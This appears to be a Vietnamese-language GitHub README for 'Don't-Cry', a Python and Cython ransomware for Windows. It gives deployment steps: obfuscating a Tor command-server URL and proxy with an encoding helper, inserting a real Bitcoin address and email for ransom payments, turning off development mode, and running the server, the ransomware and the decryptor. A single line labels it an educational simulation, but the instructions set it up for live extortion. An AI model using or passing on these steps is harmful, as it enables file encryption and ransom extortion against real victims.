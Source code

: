 # Don't-Cry Ransomware
![Python](https://img.shields.io/badge/Python-3.12%2B-blue?logo=python\&logoColor=white)
![Cython](https://img.shields.io/badge/Requires-Cython-yellow?logo=python\&logoColor=white)
![License](https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat\&logo=open-source-initiative\&logoColor=white)
![Platform](https://img.shields.io/badge/Platform-Windows-blue)
![Status](https://img.shields.io/badge/Status-Temporarily--Inactive-orange)
![DCry](./DCRY.png)
Ransomware viết bằng Python 💀💀💀
## Cách sử dụng
* Mở file [`DCry.py`](./src/DCry.py).
* Thay biến `YOUR_URL` bằng URL đã mã hóa sử dụng hàm `dx42` như sau:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Trước đó dùng hàm `ex42` từ module `edx42` để mã hóa URL.)
  Ví dụ:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Thay biến `YOUR_PROXY` tương tự với proxy đã mã hóa:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Thay `YOUR_BITCOIN_ADDRESS` bằng địa chỉ Bitcoin thật của bạn.
* Thay `YOUR_EMAIL_ADDRESS` bằng địa chỉ email thật của bạn.
* Đặt `dev_mode = False` để tắt chế độ phát triển.
* Cài đặt các thư viện cần thiết với lệnh:
  ```bash
  pip install -r requirements.txt
  ```
* Biên dịch mã Cython bằng lệnh:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Chạy server với lệnh:
  ```bash
  python src/server.py
  ```
* Chạy ransomware với lệnh:
  ```bash
  python src/DCRY.py
  ```
* Chạy công cụ giải mã với lệnh:
  ```bash
  python src/decryptor.py
  ```
## Cảnh báo
> \[!WARNING]
> Dự án này là mô phỏng ransomware chỉ phục vụ mục đích giáo dục.
## Giấy phép
* Dự án này được cấp phép theo [Apache License 2.0](./LICENSE).
